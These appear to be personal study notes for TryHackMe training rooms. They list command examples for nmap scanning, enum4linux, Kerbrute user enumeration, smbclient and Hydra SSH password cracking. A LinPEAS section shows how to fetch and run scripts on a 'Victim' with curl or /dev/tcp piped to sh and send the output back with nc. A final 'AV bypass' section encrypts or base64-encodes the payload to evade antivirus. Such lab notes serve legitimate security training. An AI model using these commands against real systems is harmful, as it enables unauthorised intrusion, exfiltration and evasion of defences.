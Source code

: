 ## Basic notes for TryHackMe.com rooms and training.

Explain shell has been great for learning.
https://explainshell.com/

paste an example of a command and it will tell you what the switches mean. Very handy.

### Enumeration Tools

## Nmap
https://nmap.org/

#### Cheatsheet
https://highon.coffee/blog/nmap-cheat-sheet/

Scan hosts and ports

basic examples

```nmap $IP -vvv -Pn -sC -sV -oN nmap-output.txt```

narrow it down to open ports.

```nmap $IP -vvv -p 135,139,445,88,3389 -sC -sV -oN nmap-script-scan.txt```

## enum4linux
https://github.com/CiscoCXSecurity/enum4linux

#### Cheatsheet
https://highon.coffee/blog/enum4linux-cheat-sheet/

#### basic examples

```num4linux -a $IP```

## Kerbrute
https://github.com/ropnop/kerbrute

#### Cheatsheet
https://cheatsheet.haax.fr/windows-systems/exploitation/kerberos/

```./kerbrute userenum --dc 10.10.XX.XX -d spookysec.local userlist.txt```

## SMBClient

#### Cheatsheet
https://github.com/irgoncalves/smbclient_cheatsheet

list shares

```smbclient -L $IP -U '$USERNAME'```

connect to a share

```smbclient //$IP/$PATH -U '$USERNAME'```

## Hydra - password crack

Used in a few tryhackme rooms. 

basic example for ssh

```hydra -l jan -P /usr/share/wordlists/rockyou.txt $IP ssh'```

# LinPeas
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

## Quick Start

Find the latest versions of all the scripts and binaries in the releases page.

From github
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Local network
```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```
Without curl
```
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim
```
Excute from memory and send output back to the host
```
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
Output to file
```
./linpeas.sh -a > /dev/shm/linpeas.txt #Victim
less -r /dev/shm/linpeas.txt #Read with colors
```
Use a linpeas binary
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64
chmod +x linpeas_linux_amd64
./linpeas_linux_amd64
```
## AV bypass

open-ssl encryption
```
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:AVBypassWithAES -in linpeas.sh -out lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:AVBypassWithAES | sh #Download from the victim
```
Base64 encoded
```
base64 -w0 linpeas.sh > lp.enc
sudo python -m SimpleHTTPServer 80 #Start HTTP server
curl 10.10.10.10/lp.enc | base64 -d | sh #Download from the victim
```
